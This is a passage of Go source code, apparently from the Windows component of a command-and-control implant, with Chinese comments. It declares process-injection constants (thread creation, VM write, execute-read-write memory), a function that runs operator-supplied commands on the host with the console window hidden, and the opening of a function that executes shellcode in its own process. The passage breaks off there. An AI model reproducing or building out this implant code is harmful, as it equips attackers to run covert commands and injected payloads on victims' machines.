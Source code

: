```
PAGE_EXECUTE = 0x10
// 定义常量 PAGE_EXECUTE_READWRITE，用于 Windows API 调用
PAGE_EXECUTE_READWRITE = 0x40
// 定义常量 PAGE_READWRITE，用于 Windows API 调用
PAGE_READWRITE = 0x04
// 定义常量 PROCESS_CREATE_THREAD，用于 Windows API 调用
PROCESS_CREATE_THREAD = 0x0002
// 定义常量 PROCESS_VM_READ，用于 Windows API 调用
PROCESS_VM_READ = 0x0010
// 定义常量 PROCESS_VM_WRITE，用于 Windows API 调用
PROCESS_VM_WRITE = 0x0020
// 定义常量 PROCESS_VM_OPERATION，用于 Windows API 调用
PROCESS_VM_OPERATION = 0x0008
// PROCESS_QUERY_INFORMATION 是一个用于 Windows API 调用的 Windows 常量
PROCESS_QUERY_INFORMATION = 0x0400
// TH32CS_SNAPHEAPLIST 是一个用于 Windows API 调用的 Windows 常量
TH32CS_SNAPHEAPLIST = 0x00000001
// TH32CS_SNAPMODULE 是一个用于 Windows API 调用的 Windows 常量
TH32CS_SNAPMODULE = 0x00000008
// TH32CS_SNAPPROCESS 是一个用于 Windows API 调用的 Windows 常量
TH32CS_SNAPPROCESS = 0x00000002
// TH32CS_SNAPTHREAD 是一个用于 Windows API 调用的 Windows 常量
TH32CS_SNAPTHREAD = 0x00000004
// THREAD_SET_CONTEXT 是一个用于 Windows API 调用的 Windows 常量
THREAD_SET_CONTEXT = 0x0010
)

// ExecuteCommand 是一个函数，用于指示代理在主机操作系统上执行命令
func ExecuteCommand(name string, arg string) (stdout string, stderr string) {
    var cmd *exec.Cmd

    // 解析参数字符串为参数数组
    argS, errS := shellwords.Parse(arg)
    if errS != nil {
		// 返回空字符串和格式化的错误信息，包括命令行参数和错误信息
		return "", fmt.Sprintf("There was an error parsing command line argments: %s\r\n%s", arg, errS.Error())
	}

	// 使用提供的命令和参数创建一个命令对象
	cmd = exec.Command(name, argS...)

	// 设置命令对象的系统进程属性，隐藏窗口
	cmd.SysProcAttr = &syscall.SysProcAttr{HideWindow: true} //Only difference between this and agent.go

	// 执行命令并获取标准输出和标准错误
	out, err := cmd.CombinedOutput()
	stdout = string(out)
	stderr = ""

	// 如果有错误，将错误信息赋值给标准错误
	if err != nil {
		stderr = err.Error()
	}

	// 返回标准输出和标准错误
	return stdout, stderr
}

// ExecuteShellcodeSelf 在当前进程中执行提供的 shellcode
func ExecuteShellcodeSelf(shellcode []byte) error {
	// 使用 NewLazySystemDLL 函数创建 kernel32 对象，用于访问 kernel32.dll 中的函数
```